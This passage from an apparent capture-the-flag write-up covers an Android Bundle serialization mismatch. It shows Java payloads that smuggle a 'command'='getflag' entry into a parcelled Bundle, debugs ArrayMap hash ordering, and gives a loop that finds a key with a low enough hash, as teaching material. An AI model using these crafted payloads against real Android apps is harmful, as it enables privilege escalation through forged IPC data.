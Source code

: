 This is the payload2:
```java 
a.writeString("\7\0command\0\0\0\7\0getflag");
a.writeInt(0);//fake_type
a.writeString("");//fake_value
```


For validating my suppose, I use payload3:
``` java
a.writeString("\7\0command\0\0\0\7\0getflag\0\0");
a.writeInt(0);//fake_type
a.writeString("1");//fake_value
```
The bundle created by this payload should be the same as the bundle created by payload1 except `length`.
Yes, it is.
But `Receiver3` refuse the bundle and raise a exception.
I check it and find the order changed:
`'\7\0command...getflag\0\0'='1', Message, 'command'='gotflag'`
It means that the payload is correct but it covered `'command'='gotflag'`.

And there is a warning in logcat:
```
>>W/ArrayMap: New hash -1841832101 is before end of array hash -1212575282 at index 1 key ��command��������getflag����
```

So the question is Bundle use Arraymap, whose order is decisided by hash of key.
We change the key, so the hash changed.
It is lower than the hash of key of Message.
We don't care it before.
Here is the source:

```java
    public void append(K key, V value) {
        int index = mSize;
        final int hash = key == null ? 0
                : (mIdentityHashCode ? System.identityHashCode(key) : key.hashCode());
        if (index >= mHashes.length) {
            throw new IllegalStateException("Array is full");
        }
        if (index > 0 && mHashes[index-1] > hash) {
            RuntimeException e = new RuntimeException("here");
            e.fillInStackTrace();
            Log.w(TAG, "New hash " + hash
                    + " is before end of array hash " + mHashes[index-1]
                    + " at index " + index + " key " + key, e);
            put(key, value);
            return;
        }
```

So I think pwn the vulnerability, the value of hash is important.
The value of hash of key is `-1841832101`, so we just need to find a key with lower hash.
``` java
        String key = "mismatch";
        while(key.hashCode()>=-1841832101){
            key += ".";
        }
        a.writeString(key); // key of Message object

```

[This](./gen_payload.zip) is a project of AndroidStudio which can generate the exploit payload.
